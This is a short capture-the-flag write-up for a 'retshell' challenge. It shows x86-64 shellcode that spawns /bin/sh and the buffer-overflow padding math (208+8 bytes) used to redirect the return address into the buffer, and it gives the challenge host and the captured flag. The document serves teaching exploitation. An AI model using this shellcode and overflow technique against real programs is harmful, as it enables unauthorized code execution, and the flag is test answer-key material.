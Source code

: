 # retshell
## Description
> nc sqlab.zongyuan.nctu.me 6002
>
> [ret2shellcode](ret2shellcode)
---
## Writeup
For this problem, we need to inject shellcode to buffer, then use bufferoverflow to alter return address back to buffer to execute shellcode. (The problem provides the buffer address)

Below is the shellcode to gain /bin/sh
```asssembly
push rax # for alignment (not sure why)
xor rdx, rdx # use xor to prevent null byte
xor rsi, rsi
mov rbx, 0x68732f2f6e69622f # little endian for /bin//sh, the extra slash is for preventing null byte
push rbx # push to stack
mov rdi, rsp # make rdi point to string
mov al, 0x3b # use mov al to prevent null byte
syscall
```

Next use objdump to see `sub rsp, 0xd0`, which means the space for buffer is 208 bytes.

![assembly](assembly.jpg)

So 208 + 8(rbp) with address appended we can override the return address. The shellcode takes 25 bytes, so we need to add 191 bytes of garbage to do it.

![flag](flag.jpg)

flag : balqs{system_bin_sh?}